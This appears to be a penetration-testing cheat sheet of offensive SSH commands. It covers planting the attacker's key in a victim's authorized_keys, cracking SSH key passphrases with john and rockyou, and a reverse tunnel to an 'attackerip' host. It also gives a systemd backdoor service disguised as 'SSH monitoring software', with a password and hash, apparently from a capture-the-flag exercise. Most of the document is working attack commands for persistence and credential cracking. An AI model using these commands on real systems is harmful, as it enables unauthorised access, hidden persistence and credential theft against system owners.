 # SSH

## Connect
```
ssh -p port username@$target
```

## SSPASS Connect
```
sshpass -p "password" ssh username@$target
```

## ssh_key
```
chmod 600 ssh_key
ssh -i ssh_key username@$target
```

## Create some private key
```
ssh-keygen

From your machine: 
scp ~/.ssh/id_rsa.pub victim@victimip:/~/.ssh/

From the victim's machine:
# copy the public in the authorized_keys file 
cat ~/.ssh/id_rsa.pub >> authorized_keys 
(if there is no authorized_keys file, this will create one)

# set the right permissions
chmod 700 ~/
chmod 700 ~/.ssh
chmod 600 ~/.ssh/authorized_keys
```

## John
```
/usr/sbin/ssh2john id_rsa > id_rsa.hash 
```
or
```
python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
```
then
```
/usr/sbin/john id_rsa.hash
```
or
```
/usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

## SSH Reverse Tunnel
```
ssh -N -R 9999:localhost:22 attackermachine@attackerip
```


## ssh-backdoor
[ssh-backdoor](https://github.com/NinjaJc01/ssh-backdoor)

### password
november16

### backdoor.service 
```
[Unit]
Description=SSH monitoring software

[Service]
User=james
Group=james
WorkingDirectory=/home/james/ssh-backdoor/
ExecStart=/home/james/ssh-backdoor/backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
Restart=always
RestartSec=5
[Install]
WantedBy=multi-user.target
```


